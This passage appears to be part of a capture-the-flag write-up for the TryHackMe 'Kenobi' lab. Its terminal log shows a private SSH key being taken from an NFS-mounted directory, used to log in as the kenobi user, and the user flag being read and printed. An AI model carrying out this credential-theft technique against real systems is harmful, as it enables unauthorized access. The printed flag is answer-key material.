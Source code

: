 ┌──(kali㉿kali)-[/mnt/kenobiNFS/tmp]
└─$ ls                                                                                                          2 ⚙
id_rsa
systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
systemd-private-b9f9316390df43dfb0dadabbf522e90c-systemd-timesyncd.service-opcNp7
systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn

# as shown above, the id_rsa file is in there, meaning we have access to the private key
# proceed to copy the key into the same directory as this file:
(kali㉿kali)-[~/THM/practice/kenobi]
└─$ cp /mnt/kenobiNFS/tmp/id_rsa .                                                                              2 ⚙

┌──(kali㉿kali)-[~/THM/practice/kenobi]
└─$ ls                                                                                                          2 ⚙
id_rsa  log.txt  notes.txt

# final step to gain initial access is therefore to ssh our way in:
(kali㉿kali)-[~/THM/practice/kenobi]
└─$ chmod 600 id_rsa                                                                                      130 ⨯ 2 ⚙
                                                                                                                    
┌──(kali㉿kali)-[~/THM/practice/kenobi]
└─$ ssh -i id_rsa kenobi@10.10.5.175                                                                            2 ⚙
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$

# AND WERE IN!
# i had a look around and found the user.txt file-flag:
kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899  
